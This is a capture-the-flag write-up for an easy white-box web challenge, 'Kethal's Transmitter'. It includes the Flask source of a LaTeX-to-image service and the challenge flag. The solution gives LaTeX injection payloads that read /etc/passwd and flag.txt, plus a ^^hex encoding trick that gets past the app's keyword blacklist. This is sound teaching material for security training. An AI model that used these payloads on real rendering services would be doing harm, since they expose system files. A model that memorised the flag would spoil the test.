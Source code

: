 # Kethal's Transmitter

#### Category: Web Exploitation

#### Difficulty: Easy

#### Type: White Box

#### Description: Sending signals over space can take a long time.  Kethal recently built a technology capable of transmitting messages to other galaxies using a specific signal.  If only I could figure out what techniques he uses.

#### Preview:

![image](https://github.com/user-attachments/assets/6c47c66e-d94e-4210-9181-d0e173553ad6)

## Set Up & Installation

Ensure that docker is installed in your virtual machine before the set up process.

#### [1] Download challenge files
Ensure to download the challenge file `Challenge.zip`

#### [2] Build challenge Docker image 
`sudo docker build -t chall .`

#### [3] Run the image inside a container
`sudo docker run -d chall`

#### [4] Get Docker container IP address
`sudo docker inspect <container-id> | grep 'IP'`

#### [5] Access challenge website
Access to `http://docker-ip-address:5000`

## Solution
<details>

![image](https://github.com/user-attachments/assets/c95bf775-d98c-40c8-8eb8-8329154a928e)

### Source Code (Python)
```python
from flask import Flask, render_template, request, jsonify
import subprocess
import os
import uuid
import base64
import time
import shutil

app = Flask(__name__)
app.config['SECRET_KEY'] = 'secret_key'
app.config['TEMP_FOLDER'] = 'temp'
app.config['FLAG'] = 'ICTF25{test_flag}'

os.makedirs(app.config['TEMP_FOLDER'], exist_ok=True)

LATEX_TEMPLATE = r"""
\documentclass{{article}}
\usepackage{{amsmath}}
\pagestyle{{empty}}

\begin{{document}}
{}
\end{{document}}
"""

blacklisted = ['flag', '.txt','newread','openin','read','file','line','closein','verbatim','usepackage','verbatiminput','lstinputlisting']

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/render', methods=['POST'])
def render_latex():
    cleanup_old_jobs(app.config['TEMP_FOLDER'])

    latex_code = request.form.get('latex', '')

    for word in blacklisted:
        if word in latex_code.lower():
            return jsonify({'error': 'Forbidden word detected'})

    job_id = str(uuid.uuid4())
    job_dir = os.path.join(app.config['TEMP_FOLDER'], job_id)
    os.makedirs(job_dir, exist_ok=True)

    try:
        flag_path = os.path.join(job_dir, 'flag.txt')
        with open(flag_path, 'w') as f:
            f.write(app.config['FLAG'])  

        full_latex = LATEX_TEMPLATE.format(latex_code)
        tex_file = os.path.join(job_dir, 'document.tex')
        with open(tex_file, 'w') as f:
            f.write(full_latex)

        result = subprocess.run(
            ['pdflatex', '-interaction=nonstopmode', '-output-directory', job_dir, tex_file],
            timeout=5,
            capture_output=True,
            text=True
        )

        if result.returncode != 0:
            return jsonify({
                'error': 'Invalid Function!'
            })

        pdf_file = os.path.join(job_dir, 'document.pdf')
        png_file = os.path.join(job_dir, 'output.png')
        convert_result = subprocess.run(
            ['convert', '-density', '150', pdf_file, '-quality', '90', png_file],
            timeout=5,
            capture_output=True,
            text=True
        )

        if convert_result.returncode != 0:
            return jsonify({'error': 'Image conversion failed'})

        with open(png_file, 'rb') as f:
            image_data = base64.b64encode(f.read()).decode('utf-8')

        response = {'image': image_data}
        return jsonify(response)

    except subprocess.TimeoutExpired:
        return jsonify({'error': 'Compilation Timed Out'})
    except Exception as e:
        return jsonify({'error': 'An error occurred'})
    finally:
        pass


def cleanup_old_jobs(temp_folder, max_age_seconds=60): 
    now = time.time()
    for job_name in os.listdir(temp_folder):
        job_path = os.path.join(temp_folder, job_name)
        if os.path.isdir(job_path):
            try:
                creation_time = os.path.getctime(job_path)
                if now - creation_time > max_age_seconds:
                    shutil.rmtree(job_path)
            except Exception as e:
                print(f"Cleanup error for {job_path}: {e}")


if __name__ == '__main__':
    app.run(debug=True, host='0.0.0.0', port=5000)
```

Based on the source code, the vulnerability of the website seems like [Latex Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection)

```
\newread\file
\openin\file=/etc/passwd
\read\file to\line
\text{\line}
\closein\file
```

To bypass a blacklist try to replace one character with it's unicode hex value. Can refer to [PayloadsAllTheThins](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LaTeX%20Injection/README.md)

![image](https://github.com/user-attachments/assets/cd88bbcf-7b6f-4586-b7d9-b8bb96f9c018)

Blacklisted strings:
`'flag', '.txt', 'newread', 'openin', 'read', 'file', 'line', 'closein', 'verbatim', 'usepackage', 'verbatiminput', 'lstinputlisting'`

Encode the characters with hex to bypass blacklisted words.

![image](https://github.com/user-attachments/assets/b1fa3b60-e075-4aca-8c5b-aa82e99c9af6)

Therefore, we can try use the same payload again and encode some of the characters with its hex value to bypass the blacklisting function.

![image](https://github.com/user-attachments/assets/4a5ea1f8-6eeb-4b68-aa09-e35b662b802c)

It seems like it works so we can encode the rest of the characters like "flag.txt" to read the content of the file. The following payload should look like this:

```
\newr^^65ad\fil^^65
\open^^69n\fil^^65=fl^^61g.t^^78t
\re^^61d\fil^^65 to\lin^^65
\text{\lin^^65}
\close^^69n\fil^^65
```

Using the payload and submit it into the input will reveal the contents inside the file "flag.txt". Thus, the flag is successfully obtained.

![image](https://github.com/user-attachments/assets/82d48f15-4a35-4436-b332-82c7d361b9da)

### Flag
> ICTF25{dd265d58e3e1941a0cce646df439ea13c931d0159fe5c754cd39c8bad146fea7}

</details>
